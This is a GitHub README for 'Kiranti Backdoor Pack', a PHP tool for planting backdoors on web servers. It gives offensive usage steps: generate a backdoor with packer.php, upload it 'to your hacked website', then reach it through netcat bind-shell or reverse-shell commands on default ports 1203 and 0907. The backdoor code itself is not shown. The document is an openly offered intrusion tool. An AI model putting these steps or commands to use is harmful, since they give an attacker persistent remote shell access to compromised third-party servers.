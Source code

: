 # kirantipack

```
██╗  ██╗██╗██████╗  █████╗ ███╗   ██╗████████╗██╗
██║ ██╔╝██║██╔══██╗██╔══██╗████╗  ██║╚══██╔══╝██║
█████╔╝ ██║██████╔╝███████║██╔██╗ ██║   ██║   ██║
██╔═██╗ ██║██╔══██╗██╔══██║██║╚██╗██║   ██║   ██║
██║  ██╗██║██║  ██║██║  ██║██║ ╚████║   ██║   ██║
╚═╝  ╚═╝╚═╝╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝   ╚═╝   ╚═╝
```                            
                    Version: 1.2

Kiranti Backdoor Pack

This is a project for backdooring webserver without using web-based shell

### How To Use
* Download this project
* Generate your own backdoor with: 
```
$ php packer.php
```
* Upload to your hacked website and access
* We will use netcat for connect to our backdoor

for bind connect:
```
$ nc -v [server ip] 1203
```

for reverse connect:
```
$ nc -lvp 0907
```

PS: 1203 and 0907 is default port

### Disclaimer

I as the author assume no liability and not responsible for any misused this project

### Updates

[x] Removing option -t and Carbylamine encoded source
